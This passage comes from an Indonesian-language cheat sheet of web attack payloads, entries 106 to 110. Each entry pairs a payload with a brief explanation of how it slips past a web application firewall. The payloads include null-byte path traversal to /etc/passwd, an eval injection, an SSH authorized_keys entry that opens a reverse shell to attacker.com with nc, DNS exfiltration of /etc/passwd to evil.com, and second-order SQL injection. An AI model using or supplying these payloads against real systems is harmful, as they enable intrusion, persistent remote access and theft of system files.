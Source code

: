 
### **🛡️ 106. Path Traversal via Null Byte Injection**  
```http
GET /download?file=../../etc/passwd%00.png
```
**📌 Teknik:**  
✅ **Path Traversal** = Mengakses file sistem dengan manipulasi path.  
✅ **Bypass WAF** karena filter sering hanya memeriksa ekstensi akhir `.png`.  

---

### **🛡️ 107. JavaScript Eval Injection via JSON Hijacking**  
```json
{"payload": "eval('alert(1)')"}
```
**📌 Teknik:**  
✅ **JSON Hijacking** = Mengeksploitasi JSON yang tidak tervalidasi dengan benar.  
✅ **Bypass WAF** karena payload tampak seperti objek JSON biasa.  

---

### **🛡️ 108. Remote Command Execution via Malicious SSH Key**  
```bash
echo 'command="nc -e /bin/sh attacker.com 4444" ssh-rsa AAA...' >> ~/.ssh/authorized_keys
```
**📌 Teknik:**  
✅ **SSH Key Injection** = Memasukkan perintah dalam file `authorized_keys`.  
✅ **Bypass WAF** karena terjadi di level sistem, bukan aplikasi web.  

---

### **🛡️ 109. Data Exfiltration via DNS Queries**  
```bash
nslookup $(cat /etc/passwd | base64).evil.com
```
**📌 Teknik:**  
✅ **DNS Exfiltration** = Mengirimkan data melalui query DNS.  
✅ **Bypass WAF** karena traffic DNS sering tidak dimonitor secara ketat.  

---

### **🛡️ 110. Advanced SQL Injection via Second-Order Attack**  
```sql
INSERT INTO users (username) VALUES ('admin'); -- Kemudian diakses:  
SELECT * FROM users WHERE username='$input'
```
**📌 Teknik:**  
✅ **Second-Order SQLi** = Mengeksploitasi data yang sudah tersimpan sebelumnya.  
✅ **Bypass WAF** karena payload tidak langsung terlihat berbahaya saat disimpan.  

---

